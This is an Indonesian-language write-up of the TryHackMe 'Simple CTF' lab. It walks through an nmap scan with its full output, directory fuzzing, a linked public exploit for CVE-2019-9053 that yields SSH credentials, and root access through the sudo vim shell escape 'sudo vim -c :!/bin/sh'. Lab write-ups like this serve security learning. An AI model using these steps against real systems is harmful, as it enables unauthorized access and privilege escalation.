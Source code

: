 ```yaml
---
title: "Tryhackme - Simple CTF WriteUps"
date: 2022-12-14 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - Simple CTF WriteUps

Pertama kali kita scanning Port yang terbuka dengan Nmap ```Nmap -sC -sV ‘Target’```. Setelah menscan kita dapat melihat Port terbuka yaitu port 21, 80, dan 2222.
```
$ nmap -sC -sV 10.10.98.22 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 22:54 PST
Nmap scan report for 10.10.98.22
Host is up (0.26s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.92 seconds
```
Disini kita mencoba melihat tampilan website pada port 80. Dan kita mendapatkan tampilan Apache2.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005431703031868/image.png)

Sekarang kita mencoba fuzzing directory dengan dirsearch dan kita mendapatkan: ````/index.html```, ```/robots.txt, /simple```.

![image](https://media.discordapp.net/attachments/740245586095112242/1055005736247230514/image.png)

Kita coba membuka halaman baru dan menambahkan directory ```/simple```. Setelah kita searching secara dalam kita menemukan Vulnerability CVE-2019-9053 dan exploitnya saya dapatkan dari [github](https://github.com/e-renna/CVE-2019-9053).

![image](https://media.discordapp.net/attachments/740245586095112242/1055006129509384222/image.png)

Disini kita mencoba menjalankan dan exploit dengan exploit yang kita dapatkan tadi. Dengan ini kita bisa melihat user, password, dan email yang di hash dengan md5. Dan kita mendapatkan 
```
Username: mitch
Password: secret
Email: admin@admin.com
```
![image](https://media.discordapp.net/attachments/740245586095112242/1055006770373853184/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055006940461281300/image.png)

Setelah kita mendapatkanya kita coba untuk login pada SSH port 2222 yang kita dapatkan dari scanning network dari Nmap tadi. Dan berhasil login, selanjutnya kita akan local privileges dengan cara melihat sudoers ```sudo -l``` untuk melihatnya dan kita dapat menjalankan ```/usr/bin/vim```

![image](https://media.discordapp.net/attachments/740245586095112242/1055007310969315409/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1055007445166084197/image.png)

Disini kita mencoba exploit dengan payload yang didapat dari [GTFobins](https://gtfobins.github.io/gtfobins/vim/) yang payload ini: 
```
vim -c ':!/bin/sh' 
```
dapat dijalankan secara langsung dengan root untuk memanggil bash pada root.
![image](https://media.discordapp.net/attachments/740245586095112242/1055007970355859566/image.png)

Selanjutnya kita eksekusi dengan payload ini dan menambahkan sudo didepan payload ```sudo vim -c ‘:!/bin/sh’```. Dan berhasil kita telah mendapatkan root access pada server ini.

![image](https://media.discordapp.net/attachments/740245586095112242/1055008241555357736/image.png)
